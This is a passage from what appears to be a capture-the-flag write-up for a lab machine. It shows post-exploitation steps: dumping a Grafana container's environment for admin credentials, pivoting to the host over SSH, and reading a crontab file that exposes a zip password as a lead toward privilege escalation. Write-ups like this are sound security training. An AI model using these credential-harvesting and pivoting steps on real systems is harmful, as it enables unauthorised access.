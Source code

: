 ## 7️⃣ Post-Exploitation Enumeration  

I checked the `env` vars in container for creds; pivoted to host via SSH as <span style="color:rgb(219, 0, 0)">enzo</span> (password from env); enumerated files and ports.  

**Commands/outputs/analysis:**  

```bash
root@7ce659d667d7:~# env
SHELL=/usr/bin/bash
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
TERM=xterm-256color
AWS_AUTH_EXTERNAL_ID=
SHLVL=3
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=**********  <-- PASSWORD
GF_SECURITY_ADMIN_USER=enzo    <--- USERNAME
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
OLDPWD=/var/backups
root@7ce659d667d7:~# 
```
{: .nolineno } 


**Output:** 
Revealed `GF_SECURITY_ADMIN_PASSWORD (redacted)`. SSH to host, then:  

## 8️⃣ Privilege Escalation  

After getting the creds from docker environment variable I got the shell through SSH connection and while enumeration I got a cronjob file in `/opt` directory🔻

```bash
enzo@planning:/tmp$ cd /opt/crontabs
enzo@planning:/opt/crontabs$ ls
crontab.db
enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4**********T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
enzo@planning:/opt/crontabs$ 
```
{: .nolineno }
